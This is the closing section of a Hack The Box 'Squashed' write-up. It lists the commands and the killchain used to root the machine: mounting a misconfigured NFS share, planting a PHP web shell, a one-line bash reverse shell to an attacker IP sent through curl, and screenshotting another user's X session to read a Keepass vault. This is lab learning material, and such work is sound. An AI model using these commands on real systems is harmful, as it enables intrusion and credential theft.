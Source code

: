 ## Reflection

### Useful Commands

**Take a screenshot of an X session window**: `XAUTHORITY=/home/alex/.Xauthority xwd -root -screen -silent -display :0 >/tmp/screenshot.xwd`

**Reverse TCP Bash shell through a curl command**: `curl http://10.129.50.186/shell.php?cmd=bash+-c+"bash+-i+>%26/dev/tcp/10.10.14.2/5555+0>%261"`

**Mount NFS share**: `mount -t nfs 10.129.50.186:/var/www/html ./html`

### Killchain Summary

1. Find exposed NFS shares and mount them creating users that match the uid of the shares
2. Write a PHP web shell to the root web directory in the /var/www/html exposed NFS share
3. Acquire shell as alex from a reverse shell Bash TCP command through the web shell
4. Take a screenshot of ross's authentication GUI session to view the contents of the Keepass vault and escalate privileges to root

### Misconfigurations

Some misconfigurations on this host that led us to have root access:
- all_squash not enabled on the NFS server which lets us map the uid's to have the same permissions on the directories as the user that owns them

### Summary of Exploits

No exploits used.

## Conclusion

I found the privilege escalation vector to be very unique and outside of my understanding so I had to Google a bit to get to the end result. Shoutout to 0xdf for this hslp. 

It shows that I still have a lot to learn about enumerating systems and realizing that users could be simulated to be logged in as well as. There is also a whole world of understanding display managers and these X11 servers/sessions. 

## References

[^htb-link]: <https://www.hackthebox.com/machines/squashed>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>